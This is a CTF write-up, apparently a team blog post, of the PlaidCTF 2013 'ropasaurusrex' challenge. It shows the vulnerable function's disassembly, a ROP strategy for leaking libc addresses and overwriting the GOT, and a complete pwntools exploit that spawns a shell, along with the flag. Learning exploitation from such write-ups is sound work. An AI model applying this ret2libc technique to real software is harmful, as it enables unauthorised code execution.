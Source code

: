 ```yaml
---
title: ropasaurusrex - PlaidCTF 2013
author: kriztw
layout: post
published: true
date: 2013-05-06 22:52:43
---
```


Challenge description:

> <pre>ROP ROP ROP ROP ROP ROP ROP
> 54.234.151.114:1025</pre>

> [Download binary](http://dl.ctftime.org/64/364/ropasaurusrex-85a84f36f81e11f720b1cf5ea0d1fb0d5a603c0d)

> [Download libc](http://dl.ctftime.org/64/364/libc.so.6-f85c96c8fc753bfa75140c39501b4cd50779f43a)

Looking at the challenge description, this challenge seems to be about feeding ducks or,
more likely, return-oriented-programming. Looking at the files we quickly confirmed that
it was the latter, as we are met with a very short 32bit Linux binary and a version of
libc.

The binary is a bit funky, and it is hard to see which parts are interesting at
first. When you run the program it's easy to see that the program only reads and writes
once, which is probably where the interesting stuff happens:

```objdump
  80483f4:   55                      push   ebp
  80483f5:   89 e5                   mov    ebp,esp
  80483f7:   81 ec 98 00 00 00       sub    esp,0x98
  80483fd:   c7 44 24 08 00 01 00    mov    DWORD PTR [esp+0x8],0x100
  8048404:   00
  8048405:   8d 85 78 ff ff ff       lea    eax,[ebp-0x88]
  804840b:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
  804840f:   c7 04 24 00 00 00 00    mov    DWORD PTR [esp],0x0
  8048416:   e8 11 ff ff ff          call   804832c <read@plt>
  804841b:   c9                      leave
  804841c:   c3                      ret
```

This is a very simple buffer overflow, so the only problem now is to generate ROP to
gain a shell. We only have the symbols `read` and `write` from libc and no other
interesting gadgets to speak of, so our possibilites are limited, but we do have one
possible strategy:

```text
1. Write the address of `write` in libc from the GOT
2. Calculate offset to `system` for their version of libc.
3. Read '/bin/sh' into the .data segment, which has W privileges
4. Read the calculated `system` address into the GOT where `write` is located
5. Call `write` (now `system`) with a pointer to .data as the argument
```

First we need to grab the relevant symbols (`write` and `system`) from their libc (and our
own for local testing):

```console
$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep ' system@'
  1422: 0003f430   141 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep ' write@'
  2265: 000de4c0   128 FUNC    WEAK   DEFAULT   12 write@@GLIBC_2.0
$ echo "Local offset:" $((0x3f430-0xde4c0))
Local offset: -651408
$ readelf -s libc.so.6-f85c96c8fc753bfa75140c39501b4cd50779f43a | grep ' system@'
  1399: 00039450   125 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
$ readelf -s libc.so.6-f85c96c8fc753bfa75140c39501b4cd50779f43a | grep ' write@'
  2236: 000bf190   122 FUNC    WEAK   DEFAULT   12 write@@GLIBC_2.0
$ echo "Remote offset:" $((0x39450-0xbf190))
Remote offset: -548160
```

We also need to chain the calls properly with pop-ret gadgets. Luckily we have a library
which handles this for us, so the rest of the exploit is straight forward:

```python
#!/usr/bin/env python
from pwn import *
context('i386', 'linux')

splash()

rop = ROP('ropasaurusrex-85a84f36f81e11f720b1cf5ea0d1fb0d5a603c0d')

overflow = (0x88 + 4) * 'A'

rop.call('write', [1, rop.got['write'], 4])
rop.call('read', [0, '.data', 8])
rop.call('read', [0, rop.got['write'], 4])
rop.call('write', '.data')
rop_chain =  rop.generate()

sploit = overflow + rop_chain + (0x100 - len(overflow + rop_chain)) * 'A' #+ '/bin/sh' + '\x00' + p32(0xf7e4e430)

# Remote
#system_write_offset = -548160
#proc = remote('54.234.151.114', 1025)

# Local
system_write_offset = -651408
proc = process('./ropasaurusrex-85a84f36f81e11f720b1cf5ea0d1fb0d5a603c0d')

proc.send(sploit)

# Calculate system addr in libc
write_addr = [x[2:] for x in map(hex, map(ord, proc.recv()))]
write_addr.reverse()
system = int(flat(write_addr),16) + system_write_offset

proc.send('/bin/sh\x00')
proc.send(p32(system))
proc.interactive()
```

Key: you_cant_stop_the_ropasaurusrex
